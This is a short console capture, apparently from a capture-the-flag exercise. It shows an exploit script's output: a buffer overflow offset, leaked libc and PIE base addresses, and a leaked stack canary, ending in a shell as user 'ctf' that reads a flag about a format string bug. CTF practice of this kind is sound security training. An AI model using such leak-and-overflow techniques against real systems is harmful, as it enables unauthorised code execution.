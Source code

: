 ```console
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 328
[+] Libc base @ 0x7f6c67f43000
[+] PIE base  @ 0x55a32e8a1000
[+] Canary    @ 0x180dce4f11982c00
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{f0rm4t_5tr1ng_bug_15_b4d} 
```
